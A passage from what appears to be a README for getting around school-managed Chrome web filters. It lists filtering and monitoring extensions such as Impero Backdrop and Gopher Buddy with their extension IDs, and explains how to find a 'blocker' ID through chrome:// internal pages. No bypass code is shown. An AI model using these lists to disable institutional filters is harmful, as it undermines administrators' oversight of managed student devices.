|<a href="https://chrome.google.com/webstore/detail/imtlazarusv16/cgigopjakkeclhggchgnhmpmhghcbnaf">IMTLazarus</a>|`cgigopjakkeclhggchgnhmpmhghcbnaf`| 
|<a href="https://chrome.google.com/webstore/detail/impero-backdrop/jjpmjccpemllnmgiaojaocgnakpmfgjg">Impero Backdrop</a>|`jjpmjccpemllnmgiaojaocgnakpmfgjg`|
|<a href="https://chrome.google.com/webstore/detail/intersafe-gatewayconnecti/ecjoghccnjlodjlmkgmnbnkdcbnjgden">InterSafe GatewayConnection Agent</a>|`ecjoghccnjlodjlmkgmnbnkdcbnjgden`| 
|<a href="https://chrome.google.com/webstore/detail/gopher-buddy/cgbbbjmgdpnifijconhamggjehlamcif">Gopher Buddy</a>|`cgbbbjmgdpnifijconhamggjehlamcif`|
|<a href="https://chrome.google.com/webstore/detail/connect-for-chrome-educat/ddfbkhpmcdbciejenfcolaaiebnjcbfc">Connect for Chrome - Education</a>|`ddfbkhpmcdbciejenfcolaaiebnjcbfc`|

If your blocker is not on this list: go to `chrome://extensions`, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=). 
Here's all the good places to find your Blocker id 
`chrome://extensions` 
`chrome://extensions-internals` 
`chrome://process-internals` 
Search up the blocker ID on google if you have too 
If you can't find them in those URL'S Manualy then try to do ctrl + f and type in your blocker name or ID

</details>
